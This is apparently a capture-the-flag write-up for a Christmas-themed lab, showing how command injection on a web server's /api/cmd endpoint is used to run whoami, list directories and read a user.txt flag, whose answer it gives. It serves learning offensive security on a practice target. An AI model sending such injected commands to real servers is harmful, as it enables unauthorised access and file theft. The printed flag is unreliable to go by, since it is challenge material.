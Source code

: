 ## Introduction

> Another day, another hack from the Christmas Monster. Can you get back control of the system?

> Access the web server on http://[your-ip]:3000/

> McSkidy actually found something interesting on the /api/cmd endpoint.

> Check out the [supporting material](./Christmas Command Injection) here.

## Question 1

> What are the contents of the user.txt file?

td:lr Answer: **5W7WkjxBWwhe3RNsWJ3Q**

===============================================================================

On the webpage, it is just an empty page with the text "christmas monster was here"

we were given in the intro that there is something interesting on /api/cmd.

Navigating to http://[ip]:3000/api/cmd, we will see error "Cannot GET /api/cmd/"
However, as the supporting doc implies, there might be command injection available here

we can try by inserting whoami:

`http://[ip]:3000/api/cmd/whoami`

straightaway we can see a json return of 'root\n', which means our command injection works successfully
So now we need to find the right information by enumerating and finding the right file:

`http://[ip]:3000/api/cmd/ls -la`

![](./res/pic1.png)

`http://[ip]:3000/api/cmd/cd home&&ls -la`

![](./res/pic2.png)

`http://[ip]:3000/api/cmd/cd home&&cd bestadmin&&ls -la`

![](./res/pic3.png)

in the directory home/bestadmin/ we will find the user.txt file. Hence the below will give us the answer.

`http://[ip]:3000/api/cmd/cd%20home&&cd%20bestadmin&&cat%20user.txt`

